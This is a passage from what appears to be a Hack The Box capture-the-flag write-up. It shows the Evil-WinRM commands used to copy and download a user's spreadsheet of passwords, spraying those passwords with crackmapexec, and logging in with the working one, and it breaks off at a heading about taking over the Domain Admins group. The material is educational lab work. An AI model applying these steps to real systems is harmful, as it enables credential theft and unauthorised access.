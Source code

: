 
There’s a single file on the desktop. I’ll copy it to `programdata` and
download it:

    
    
    *Evil-WinRM* PS C:\programdata> echo "copy \users\maria\desktop\Engines.xls \programdata\" > cmd.ps1  
    *Evil-WinRM* PS C:\programdata> ls Engines.xls
    
        Directory: C:\programdata
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/26/2021   8:13 AM           6144 Engines.xls
    *Evil-WinRM* PS C:\programdata> download C:\programdata\Engines.xls Engines.xls
    Info: Downloading C:\programdata\Engines.xls to Engines.xls
    
                                                                 
    Info: Download successful!
    

### Engines.xls

The Excel file opens in LibreOffice `Calc` in my Linux VM, and it includes a
list of machines and passwords for maria:

![image-20220228064648956](https://0xdfimages.gitlab.io/img/image-20220228064648956.png)

### WinRM

[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) can quickly test
each password for maria. I’ll save them into a text time, and run it:

    
    
    oxdf@hacky$ crackmapexec winrm 10.10.11.132 -u maria -p maria-pass 
    SMB         10.10.11.132    5985   NONE             [*] None (name:10.10.11.132) (domain:None)
    HTTP        10.10.11.132    5985   NONE             [*] http://10.10.11.132:5985/wsman
    WINRM       10.10.11.132    5985   NONE             [-] None\maria:d34gb8@
    WINRM       10.10.11.132    5985   NONE             [-] None\maria:0de_434_d545
    WINRM       10.10.11.132    5985   NONE             [+] None\maria:W3llcr4ft3d_4cls (Pwn3d!)
    

The last one works over WinRM for maria:

    
    
    oxdf@hacky$ evil-winrm -i 10.10.11.132 -u maria -p 'W3llcr4ft3d_4cls'
    
    Evil-WinRM shell v3.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\maria\Documents>
    

## Shell with Domain Admins

### Takeover Domain Admins Group

